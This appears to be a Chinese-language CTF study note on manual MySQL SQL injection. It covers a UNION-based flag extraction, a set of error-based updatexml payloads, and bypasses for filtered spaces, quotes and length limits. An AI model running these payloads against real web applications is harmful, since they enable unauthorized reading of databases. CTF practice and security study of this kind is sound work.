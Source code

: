 ```yaml
---
title: CTF SQLI
toc: true
date: 2021-04-25 17:12:07
tags: CTF
categories: [100 Web security, 120 CTF, 121 Web ]
---
```


### 手注流程
1. 页面里有一个POST表单，测试会不会有注入漏洞
    POST里
    id=1'和id=1'#
    id=1' and 1=2#和id=1' and 1=1#
    前一个不回显后一个回显，那么说明存在注入。
1. 判断字段数：有四个字段
    id=1' order by 4#
1. 判断回显位：
    id=1' union select 1,2,3,4# 有正常回显
    id=1' union select 1,2,3# 无回显，证明该数据库在第四位，查询该数据库名

1. id=0' union select 1,2,3,database()# 查到表名为skctf，继续查数据表（tables）名
1. id=0' union select 1,2,3,group_concat(table_name) from information_schema.tables where table_schema='skctf'#
1. id=0' union select 1,2,3,group_concat(column_name) from information_schema.columns where table_name='fl4g'#
1. 查询数据：
    id=0' union select 1,2,3,skctf_flag from fl4g#
    得到flag。

### 手注变种：报错注入
https://www.cnblogs.com/c1047509362/p/12806297.html
1. `1'or(updatexml(1,concat(0x7e,database(),0x7e,user(),0x7e,@@datadir),1))='1` 爆出数据库
1. `1'or(updatexml(1,concat(0x7c,(select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),0x7c),1))='1` 爆当前数据库表信息
1. `1'or(updatexml(1,concat(0x7c,(select(group_concat(column_name))from(information_schema.columns)where(table_schema='test')and(table_name='user')),0x7c),1))='1` 爆user表字段信息
1. `1'or(updatexml(1,concat(0x7e,(select group_concat(flag) from lession2.flag)),1))='1` 爆数据库内容
ref：https://www.codenong.com/cs106450896/

#### 报错注入变种：无单引号版
1. `aid=(select%201%20and%201=updatexml(1,concat(0x7e,(select(user())),0x7e),1))&target=1`


### 注入各种问题处理方法
1. 提示输出信息超过一行：使用group_concat,eg:3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1
字符串超过group_concat限制，使用limit 0,1单独输出，limit 0,1 表示输出第一个数据。 0表示输出的起始位置，1表示跨度为1（即输出几个数据，1表示输出一个，2就表示输出两个）。
ref：https://blog.csdn.net/forwardss/article/details/104682924
1. 替代空格：
    * 使用括号，eg：`3'or(updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='test')),0x7e),1))='1`
    * 使用内联注释：`/**/`
1. 报错注入，返回值XPATH syntax error有长度限制，为32bytes。使用substr截取需要的部分回显`updatexml(1,concat(0x7e,substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,32),0x7e),1)`,`1'or(updatexml(1,concat(0x7c,substr((select(group_concat(column_name))from(information_schema.columns)where(table_schema='test')and(table_name='user')),1,32),0x7c),1))='1`,`1'or(updatexml(1,concat(0x7e,substr((select group_concat(flag) from lession2.flag),31,61),0x7c),1))='1`
1. substr不能用：利用not in。`(select%201%20and%201=updatexml(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where table_schema=database() and table_name not in(0x6e657773)),0x7e),1))&target=1`，注意not in里面必须有内容，然后一点点添加不需要的表名，筛选出需要的表名。
1. 单引号被转义为\：用0x5C替代单引号
ref：https://www.cnblogs.com/lwfiwo/p/11314408.html
1. 引号绕过导致table_name='user'不能用：user转换成十六进制编码0x7573657273
    ref：https://blog.csdn.net/weixin_39846361/article/details/113301753

### 其它资源
1. sqlmap源码payload构成：https://www.anquanke.com/post/id/188173#h2-3
1. https://cloud.tencent.com/developer/article/1669841
1. https://www.yuque.com/vipkylin/vunko7/svhwwn
